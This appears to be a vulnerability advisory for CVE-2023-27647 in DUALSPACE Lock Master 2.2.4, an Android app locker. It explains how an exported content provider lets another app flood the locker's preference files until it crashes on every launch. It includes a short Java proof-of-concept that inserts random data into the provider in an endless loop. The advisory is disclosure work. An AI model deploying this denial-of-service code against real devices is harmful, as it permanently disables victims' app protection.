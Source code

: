 ## Denial of Service exists in Lock Master（CVE-2023-27647）

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Lock Master (com.ludashi.superlock) 

Version：2.2.4

Download link：https://app-lock-master.en.uptodown.com/android/download

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE Lock Master v.2.2.4 allows a local attacker to cause a denial of service or gain sensitive information via the com.ludashi.superlock.util.pref.SharedPrefProvider EntryMethod: insert of the android.net.Uri.insert method.

Additional information：Lock Master is a security app, which can block access to user's apps or files with lock patterns. Upon opening the app, it loads the SharedPreference files into memory. If a malicious app injects a large amount of data into these files, the Lock Master app will load excessive data into memory, which can trigger an OOM error and cause the app to crash. Even worse, simply restarting the app will not fix the security issue, as the injected data is persistent in the SharedPreference files. In practice, this means that the Lock Master app becomes unable to launch successfully.

poc：

```java
ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
Uri uri = Uri.parse("content://com.ludashi.superlock.main.SharedPrefProvider");  
ContentValues contentValues = new ContentValues();
while(true){
  contentValues.put("file_name","key_local_locked_apps");
	contentValues.put("type",4);
	contentValues.put("key",randomString);
	contentValues.put("value",randomString);
	contentResolver.insert(uri, contentValues); 
}
```




